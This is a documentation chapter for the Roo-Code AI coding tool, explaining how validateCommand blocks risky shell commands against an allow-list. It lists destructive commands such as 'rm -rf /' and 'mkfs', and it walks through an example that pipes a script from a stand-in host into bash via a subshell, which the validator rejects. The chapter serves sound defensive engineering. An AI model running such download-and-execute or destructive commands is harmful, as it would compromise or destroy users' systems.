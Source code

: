 # Chapter 41: Command Validation

Continuing from [Chapter 40: Schemas (Zod)](40_schemas__zod_.md), where we established the importance of data validation using schemas, this chapter focuses on a specific type of validation critical for security and safety: ensuring shell commands requested by the AI are permissible before execution, primarily handled by the `validateCommand` utility.

## Motivation: Preventing Unintended or Malicious Command Execution

Roo-Code's ability to execute commands via the integrated terminal ([Chapter 15: Terminal Integration](15_terminal_integration.md)) and the `execute_command` tool ([Chapter 8: Tools](08_tools.md)) is a powerful feature. However, it also introduces potential risks if the AI generates harmful or unintended commands. Examples include:

*   **Destructive Commands:** `rm -rf /`, `mkfs`, etc.
*   **Security Risks:** `sudo` usage, commands accessing sensitive configuration files, potentially downloading and executing malicious scripts.
*   **Complex/Obfuscated Commands:** Chained commands (`&&`, `||`, `;`, `|`), subshell execution (`$(...)`, `` `...` ``), or heavily quoted commands might obscure the true intent or bypass simpler checks.

While user approval for commands provides a manual safeguard, an automated pre-validation step is crucial to:
1.  **Block Known Dangers:** Prevent obviously dangerous commands or patterns from even being presented to the user.
2.  **Enforce Restrictions:** Allow users or administrators to define a specific list of permitted command prefixes, adopting an "allow-list" approach for stricter control.
3.  **Handle Complexity:** Parse and analyze chained commands and block potentially risky constructs like subshells.

The `validateCommand` utility function, along with its helpers (`parseCommand`, `isAllowedSingleCommand`), provides this pre-validation layer. It is configured through the "Auto-Approve" settings in the UI and used by the `executeCommandTool` before attempting to run any command.

**Central Use Case:** A user configures Roo-Code to *only* allow `git`, `npm`, and `node` commands via the "Allowed Commands" setting. The AI later generates the command `npm install && $(curl -sL https://evil.sh | bash)`.

1.  The AI includes `<execute_command><command>npm install && $(curl ...)</command></execute_command>`.
2.  `Cline` parses this and invokes `executeCommandTool`.
3.  *Before* `askApproval`, `executeCommandTool` retrieves the `allowedCommands` list (`["git", "npm", "node"]`) from settings (via `ContextProxy`).
4.  It calls `validateCommand("npm install && $(curl ...)", ["git", "npm", "node"])`.
5.  The `validateCommand` utility:
    *   Detects the subshell execution `$()`.
    *   Returns `false` immediately.
    *   *Alternatively*, `parseCommand` might split it into `"npm install"` and `"curl -sL https://evil.sh | bash"`.
    *   `isAllowedSingleCommand` checks `"npm install"` against the allow list - it matches `npm`.
    *   `isAllowedSingleCommand` checks `"curl ..."` against the allow list - it does *not* match.
    *   `validateCommand` returns `false` because not all sub-commands are allowed.
6.  `executeCommandTool` receives `false`.
7.  It pushes an error result back to the AI (e.g., `<error>Command blocked: Execution contains disallowed commands or constructs.</error>`) and informs the user via `cline.say`.
8.  The command is never executed.
